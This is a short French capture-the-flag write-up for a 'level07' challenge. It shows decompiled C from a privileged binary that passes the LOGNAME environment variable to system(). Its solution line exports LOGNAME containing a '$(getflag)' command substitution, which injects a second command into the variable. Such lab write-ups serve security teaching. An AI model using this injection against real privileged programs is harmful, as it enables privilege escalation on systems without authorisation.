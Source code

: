 # Rapport CTF - [level07]

### Observation:
Nous pouvons voir un exécutable `level07` avec les droits de `flag07`

### Code:
Nous allons décompiler l'exécutable avec ghidra pour voir ce qu'il contient :
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char *v3; // eax
  char *v5; // [esp+14h] [ebp-Ch] BYREF
  __gid_t v6; // [esp+18h] [ebp-8h]
  __uid_t v7; // [esp+1Ch] [ebp-4h]

  v6 = getegid();
  v7 = geteuid();
  setresgid(v6, v6, v6);
  setresuid(v7, v7, v7);
  v5 = 0;
  v3 = getenv("LOGNAME");
  asprintf(&v5, "/bin/echo %s ", v3);
  return system(v5);
}
```
Nous pouvons voir qu'il exécute la variable `LOGNAME` pour nous donner notre nom d'utilisateur.


### Solution:
On doit juste changer cette variable par une commande getflag avec les droits de flag07: \
`export LOGNAME='$(getflag)'`

### Nous avons donc directement le mot de passe de level08 sans avoir le flag07

